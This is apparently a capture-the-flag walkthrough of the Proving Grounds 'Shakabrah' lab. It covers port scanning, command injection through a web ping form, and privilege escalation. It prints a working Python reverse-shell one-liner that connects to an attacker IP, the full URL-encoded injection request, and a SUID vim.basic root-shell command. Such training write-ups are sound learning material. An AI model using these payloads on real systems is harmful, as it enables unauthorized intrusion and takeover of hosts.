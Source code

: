 # PG Play - Shakabrah

#### Ip: 192.168.241.86
#### Name: Shakabrah
#### Difficulty: Easy
#### Community Rating: Intermediate

----------------------------------------------------------------------

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also use the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/PG/Shakabrah]
└─$ sudo nmap -p-  --min-rate 10000 192.168.241.86
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-18 14:51 CDT
Nmap scan report for 192.168.241.86
Host is up (0.066s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 14.38 seconds
```

Lets scan these ports using the `-sV` and `-sC` flags to enumerate versions and to use default Nmap scripts:

```text
┌──(ryan㉿kali)-[~/PG/Shakabrah]
└─$ sudo nmap -sC -sV 192.168.241.86 -p 22,80
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-18 14:52 CDT
Nmap scan report for 192.168.241.86
Host is up (0.067s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33b96d350bc5c45a86e0261095487782 (RSA)
|   256 a80fa7738302c1978c25bafea5115f74 (ECDSA)
|_  256 fce99ffef9e04d2d76eecadaafc3399e (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.92 seconds
```

Navigating to the site we find a "Connection Tester" that will ping supplied IP adresses. 

![site.png](../assets/shakabrah_assets/site.png)

And we can confirm we can ping localhost:

![local.png](../assets/shakabrah_assets/local.png)

Playing around with this field a bit, I discovered we can chain commands after adding a `;` character:

![code.png](../assets/shakabrah_assets/code.png)

Lets try to exploit this to get a reverse shell:

### Exploitation

Heading over to https://www.revshells.com/ I can grab the following reverse shell one-liner and conveniently URL encoded it there as well:

```text
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.197",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

After URL encoding it and setting up a listener I can navigate to:

192.168.241.86/?host=127.0.0.1;python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22192.168.45.197%22%2C80%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22sh%22%29%27

Which gets me a reverse shell back!

```text
┌──(ryan㉿kali)-[~/PG/Shakabrah]
└─$ nc -lnvp 80 
listening on [any] 80 ...
connect to [192.168.45.197] from (UNKNOWN) [192.168.241.86] 50098
$ whoami
whoami
www-data
$ hostname
hostname
shakabrah
$ python3 -c 'import pty;pty.spawn("/bin/bash")'

python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@shakabrah:/var/www/html$ 
```

From here I can grab the local.txt flag in dylan's `/home` directory:

![user_flag.png](../assets/shakabrah_assets/user_flag.png)

### Privilege Escalation

Lets go ahead and transfer over a copy of LinPEAS to help enumerate:

![transfer.png](../assets/shakabrah_assets/transfer.png)

Interesting, LinPEAS finds asomething with the SUID bit set called vim.basic. I'm wondering if this is just vim?

We can head over to https://gtfobins.github.io/gtfobins/vim/ and find a couple of commands to try:

![suid.png](../assets/shakabrah_assets/suid.png)

We'll need to make sure we use `vim.basic` and `:py3` to account for Python3 being in use on the box.

Lets run:

```text
./vim.basic -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

Which will give us a root shell and we can grab the final flag:

![root_flag.png](../assets/shakabrah_assets/root_flag.png)

Thanks for following along!

-Ryan

-------------------------------------------------

